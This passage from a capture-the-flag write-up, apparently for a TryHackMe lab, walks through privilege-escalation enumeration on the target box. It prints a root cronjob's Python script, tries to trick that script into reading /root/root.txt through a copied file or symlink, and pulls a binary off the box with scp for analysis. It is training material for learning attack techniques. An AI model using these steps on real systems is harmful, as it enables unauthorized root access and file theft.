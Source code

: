 * ```linpeas.sh``` shows there is a cronjob running as root, we can confirm this using ```cat /etc/crontab```

* A Python script is run as root every minute - ```python3 /photos/script/photosEncrypt.py```:

  ```sh
  ls -la /photos/script/photosEncrypt.py
  # this script is not writable by us

  cat /photos/script/photosEncrypt.py
  ```

  ```py
  #!/usr/bin/python3
  import base64
  for i in range(1,7):
  # specify the path to the image file you want to encode
    image_path = "/photos/p" + str(i) + ".jpg"

  # open the image file and read its contents
    with open(image_path, "rb") as image_file:
            image_data = image_file.read()

  # encode the image data in Base64 format
    encoded_image_data = base64.b64encode(image_data)

  # specify the path to the output file
    output_path = "/photos/photoVault/p" + str(i) + ".enc"

  # write the Base64-encoded image data to the output file
    with open(output_path, "wb") as output_file:
        output_file.write(encoded_image_data)
  ```

* This script considers image path starting from '/photos/p1.jpg' and going on till '/photos/p6.jpg', opens these files in binary read mode and reads its contents into the 'image_data' variable. Then, this data is encoded in base64 and stored in similarly named files in the 'photoVault' directory

* We can try to read root flag by making our Python script think it is one of the images:

  ```sh
  cp /root/root.txt /photos/p6.jpg
  # permission denied

  # we can try creating a symbolic link
  ln -s /root/root.txt /photos/p6.jpg
  # this throws an error, since the file already exists

  ls -la /photos
  # this shows 'valley' user has rights for editing the images
  ```

* From ```ls -la /home```, we can see that there are 3 users to be checked - 'siemDev', 'valley' and 'valleyDev'. We also have a file in this directory:

  ```sh
  ls -la /home

  ls -la /home/valleyAuthenticator

  file /home/valleyAuthenticator
  # it is a 64-bit executable

  # we can try running it
  /home/valleyAuthenticator
  # this asks for a username password pair

  # we can transfer this to our machine and check its contents
  scp valleyDev@valley.thm:/home/valleyAuthenticator ~
  ```